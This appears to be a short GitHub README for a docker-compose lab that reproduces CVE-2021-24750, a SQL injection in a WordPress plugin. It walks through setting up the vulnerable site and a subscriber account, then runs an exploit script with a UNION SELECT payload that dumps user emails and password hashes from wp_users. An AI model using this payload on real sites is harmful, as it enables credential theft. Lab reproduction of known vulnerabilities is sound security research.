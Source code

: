 # How to use
* Start mysql, wordpress and wordpress-cli using docker-compose
```
docker-compose -f docker-compose.yaml up -d
```
* Install wordpress, activate the plugin and create a user with the role subscriber using wordpress-cli
```
docker-compose run --rm wp-cli install-wp
```
* Start the exploit script with an sql query that gets users emails and passwords
```
python3 exploit.py -C 'union select 1,1,user_email,user_pass from wp_users -- '
```

## Poc

![](1.png)

[Poc](../poc/pocsploit/CVE-2021-24750.py)
